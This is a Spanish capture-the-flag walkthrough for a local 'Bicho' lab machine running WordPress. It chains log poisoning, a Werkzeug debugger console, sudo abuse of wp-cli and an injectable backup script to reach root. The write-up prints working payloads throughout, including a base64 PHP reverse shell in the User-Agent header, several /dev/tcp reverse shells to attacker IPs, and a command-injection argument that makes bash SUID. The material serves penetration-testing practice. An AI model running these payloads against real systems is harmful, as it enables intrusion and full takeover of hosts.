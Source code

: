 - Tags: #Bicho
---
## Aprendizaje en Bicho
[Maquina Bicho](https://mega.nz/file/cC1lGQ4Y#4_ZBvE50GkqopyFr9i1ndugmsHiEnD7KA7PIEriSURI) -> Log Poisoning, Exploiting Werkzeug Debugger, Abusing wp-cli via Sudoers and Leveraging custom script in Sudoers for privilege escalation.

```bash
7z x bicho.zip # Descomprimimos el archivo
sudo bash auto_deploy.sh bicho.tar # Desplegamos el laboratorio.
```

### Fase Reconocimiento:
```bash
172.17.0.2 # Direccion IP del target
ping -c 1 172.17.0.2 # Lanzamos una traza ICMP para determinar si tenemos conectividad con el target

wichSystem.py 172.17.0.2 # Determinamos que estamos ante una maquina linux,
172.17.0.2 (ttl -> 64): Linux
```

### Fase Enumeracion:
```bash
escanerTCP.py -t 172.17.0.2 -p 1-10000 # Realizamos escaneo de puertos
nmap -p- -sS --open --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts # 
extractPorts allPorts # Parseamos la informacion mas relevante del primer escaneo
nmap -sC -sV -p80 172.17.0.2 -oN targeted # Realizamos un escaneo exhaustivo para determinar el servicio y la version que corren detras de estos puertos.
```

**( 80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu)) )** -> Tenemos un servico web expuesto. **( ubuntuNoble )**

### Fase Enumeracion Web:
```bash
172.17.0.2 bicho.dl # Aplicamos este cambio en nuestro ( /etc/hosts ) para poder acceder a la web
172.17.0.2 # Accedemos a la web

whatweb http://172.17.0.2 # Tenemos estas tecnologias que usa la web.
http://172.17.0.2 [302 Found] Apache[2.4.58], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.58 (Ubuntu)], IP[172.17.0.2], RedirectLocation[http://bicho.dl]
http://bicho.dl [200 OK] Apache[2.4.58], Bootstrap[0.8,6.6.2], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.58 (Ubuntu)], IP[172.17.0.2], JQuery[3.7.1], MetaGenerator[WordPress 6.6.2], Script[text/javascript], Title[Visit Suazilandia 🇸🇿], UncommonHeaders[link], WordPress[6.6.2]
```

```bash
nmap -p80 --script http-enum 172.17.0.2 # Tenemos estos resultado

/wp-login.php: Possible admin folder
/readme.html: Wordpress version: 2 
/: WordPress version: 6.6.2
/wp-includes/images/rss.png: Wordpress version 2.2 found.
/wp-includes/js/jquery/suggest.js: Wordpress version 2.5 found.
/wp-includes/images/blank.gif: Wordpress version 2.6 found.
/wp-includes/js/comment-reply.js: Wordpress version 2.7 found.
/wp-login.php: Wordpress login page.
/wp-admin/upgrade.php: Wordpress login page.
/readme.html: Interesting, a readme.
```

### Enumeracion WordPress:
```bash
wpscan --url http://bicho.dl
wpscan --url http://<URL> --enumerate u,vp,vt,tt,cb,dbe --plugins-detection aggressive
```

**( bicho )** --> Tenemos un potencial usuario.

```bash
http://bicho.dl/wp-content/debug.log # Aqui se registran los logs que intentaremos envenenar 

http://bicho.dl/wp-login.php # Aqui es donde inyectaremos el payload el siguiente payload:
<?php echo `printf YmFzaCAtaSA+JiAvZGV2L3RjcC8xNzIuMTcuMC4xLzQ0NDQgMD4mMQo= |base64 -d | bash`;?> # Payload
```


### Fase Intrusion:
```bash
POST /wp-login.php HTTP/1.1
Host: bicho.dl
User-Agent: <?php echo `printf YmFzaCAtaSA+JiAvZGV2L3RjcC8xNzIuMTcuMC4xLzQ0NDQgMD4mMQo= | base64 -d | bash`;?>
```

Nos ponemos en escucha por el puerto **4444** para recibir la conexion, y Mandamos la peticion

```bash
http://bicho.dl/wp-content/debug.log # Una ves mandado el payload recargamos la pagina.
```

### Fase Escalada Privilegios:
```bash
netstat -tuln # Muestra las conexiones de red en el sistema
```

Dado que el puerto 5000 (donde está corriendo una aplicación Flask) está abierto solo localmente en la máquina víctima, no podemos acceder directamente desde nuestra máquina atacante. Para solucionar este problema, vamos a utilizar la herramienta `chisel`, que nos permitirá crear un túnel seguro desde la máquina víctima hacia nuestra máquina atacante, redirigiendo el tráfico de ese puerto privado a un puerto accesible de nuestra máquina.

```bash
wget https://github.com/jpillora/chisel/releases/download/v1.10.1/chisel_1.10.1_linux_amd64.gz # Descargamos la herramienta.
7z x chisel_1.10.1_linux_amd64.gz # Descomprimimos el archivo
chmod +x chisel # Damos permiso de ejecucion
chisel server -p 1234 --reverse # Levantamos un servidor por el puerto 1234

```

```bash
python3 -m http.server 80 # Nos montamos un servidor python3 para que podamos descargar a la maquina del taraget, la herramienta.

wget http://192.168.100.24/chisel # Descargamos en la maquina la herramienta
chmod +x chise # Otorgamos permisos
./chisel client 172.17.0.1:1234 R:9000:127.0.0.1:5000 # Desde la maquina del target ejecutamos la herramiena para crear el tunel que permita que el servicio interno este disponible externamente desde el puerto 9000
```

**( http://127.0.0.1:9000/ )** --> Ahora podremos acceder al recurso que antes no estaba expuesto,

```bash
gobuster dir -u http://127.0.0.1:9000/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -x php,txt,html,css,js # Fuzzeando por extensiones encontramos

/console              (Status: 200) [Size: 1562] # Tenemos esta ruta
```

**( http://127.0.0.1:9000/console )** --> Tenemos una consola interactiva, Sabiendo que corre python por detras 

```bash
nc -nlvp 443 # Nos ponemos en esucha por este puerto

import os
os.system(bash -c "exec bash -i &>/dev/tcp/192.168.100.24/443 <&1") 
```

```bash
sudo -l

User app may run the following commands on 1d1e943f10a8:
    (wpuser) NOPASSWD: /usr/local/bin/wp
```

Para poder escalar a el usuario **wpuser** crearemos el el directorio **/tmp** un archivo bajo el nombre: **( reverShell )** que contendra las siguientes instrucciones:
```bash
nc -nlvp 444 # Nos podemos en escucha

bash -i >& /dev/tcp/172.17.0.1/444 0>&1 
```

```bash
sudo -u wpuser /usr/local/bin/wp --exec="system('bash -c /tmp/reverShell');" # Ahora obtendremos uns shell como este usuario

sudo -l

User wpuser may run the following commands on 1d1e943f10a8:
    (root) NOPASSWD: /opt/scripts/backup.sh # Tenemos una via potencial de elevar privilegios
```

```bash
sudo /opt/scripts/backup.sh; whoami # Vemos que podemos ejecutar comandos en el sistema exitosamente.
sudo -u root /opt/scripts/backup.sh "../../../tmp/adada ; chmod u+s /bin/bash;" # De esta manera logramos darle premisos SUID a la bash de root
```

```bash
bash -p # Logramos elevar privilegios.
```